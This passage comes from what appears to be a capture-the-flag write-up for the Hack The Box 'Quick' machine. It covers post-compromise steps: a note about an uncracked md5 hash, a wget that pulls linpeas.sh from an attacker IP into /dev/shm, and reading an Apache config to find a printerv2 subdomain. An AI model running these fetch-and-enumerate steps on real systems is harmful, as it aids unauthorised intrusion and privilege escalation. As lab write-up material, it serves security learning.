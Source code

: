 ```

mysql>
```

There is another user called `srvadm` with **md5** hash password, but I was unable to crack it.

Move on...

## **<span style='color:#ff5555'>Run Linpeas</span>**
***

```
sam@quick:/var/www/printer$ cd /dev/shm
sam@quick:/dev/shm$ ls
sam@quick:/dev/shm$ wget http://10.10.14.75/linpeas.sh
--2020-08-28 03:49:23--  http://10.10.14.75/linpeas.sh
Connecting to 10.10.14.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 241578 (236K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                         100%[==============================================================================================================>] 235.92K   799KB/s    in 0.3s

2020-08-28 03:49:23 (799 KB/s) - ‘linpeas.sh’ saved [241578/241578]

sam@quick:/dev/shm$
```

And found a lot of informations that pointed out to **printer**.

![]({{ "/images/htb/quick/printer1X.png" | relative_url }})

## **<span style='color:#ff5555'>Printer Domain</span>**
***

There are 2 files inside `/etc/apache2` and on `000-default.conf` it shows another subdomain which is **printerv2.quick.htb**.

```
sam@quick:/etc/apache2/sites-available$ cat 000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
```